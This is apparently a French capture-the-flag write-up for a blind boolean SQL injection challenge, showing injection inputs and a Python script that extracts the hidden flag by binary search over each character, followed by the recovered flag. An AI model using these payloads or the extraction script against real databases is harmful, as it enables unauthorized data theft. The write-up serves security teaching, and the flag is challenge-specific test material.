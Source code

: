 # Writeup - Injection SQL #3: Mais je le vois pas!

La requête pour ce défi est:

```sql
SELECT id,flag FROM challenge3 WHERE id='NOTRE_INPUT';
```

Cette fois on nous dit seulement s'il y a des résultats pour notre requête ou non; même chose pour les erreurs. Ceci peut sembler être une absence d'information, mais il s'agit en fait d'une information booléenne. En Utilisant judicieusement cette dernière, on peut reconstruire des informations plus complexes morceaux par morceaux en "posant des questions" vrai ou faux. Par exemple, si je veux savoir combien il y a d'entrée dans la table, je peux voir s'il y a des résultats quand je regarde uniquement la 1ère ligne de résultats, puis la 2è et ainsi de suite:

```sql
 -- Entrée
' OR ''='' LIMIT 1 OFFSET 0 --
 -- Requête
 SELECT id,flag FROM challenge3 WHERE id='' OR ''='' LIMIT 1 OFFSET 0 -- ';
 -- Résultat = Votre requête a retourné au moins un résultat


 -- Entrée
' OR ''='' LIMIT 1 OFFSET 1 --
 -- Requête
 SELECT id,flag FROM challenge3 WHERE id='' OR ''='' LIMIT 1 OFFSET 1 -- ';
 -- Résultat= Votre requête n'a retourné aucun résultat
```

Avec les deux requêtes précédentes, on peut apprendre qu'il n'y a qu'une seule entrée dans la table. On peut appliquer le même principe pour retrouver chacun des caractères du contenu de la colonne `flag`. Ceci demande beaucoup de requêtes et nous allons donc le scripter. Il y a plus d'une manière de faire. Dans le script suivant, nous utiliserons les fonctions SQL `ASCII` et `SUBSTRING` pour effectuer une recherche binaire sur la valeur de chacun des caractères du flag.

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-
import requests

URL = "https://challenges.unitedctf.ca:18000/challenge3.php"
HEADERS = {}

query = "' OR ASCII(SUBSTRING(flag, {}, 1)) > {} -- " # Placeholders are for Position and ascii value respectively
validate = "' OR flag='{}"

def find_next_letter(index):
    resp = requests.Response()
    low = 0
    high = 0x7f # Maximum value in ASCII range

    # Use binary search over the ASCII range. Faster than enumerating each character
    while high > low:
        char = (low + high) // 2
        try:
            resp = requests.post(URL, data={"flagID": query.format(index, char)}, headers=HEADERS)
        except ConnectionError as e:
            print(e)
        if "au moins un résultat" in resp.text:
            low = char + 1
        else:
            high = char
    return chr(low)

def find_password():
    currentPass = ""
    while "au moins un résultat" not in requests.post(URL, data={"flagID": validate.format(currentPass)}, headers=HEADERS).text:
        currentPass += find_next_letter(len(currentPass) + 1) #SUBSTRING is 1-indexed
        print(currentPass) # See the flag being built char by char on the screen. This is fun to watch and prevents you from thinking the script is stuck
    return currentPass

print("Flag: " + find_password())
```

Flag: **FLAG-In_the_Land_of_Mariadb_where_the_Columns_lie_4Z3H1ymWBX**
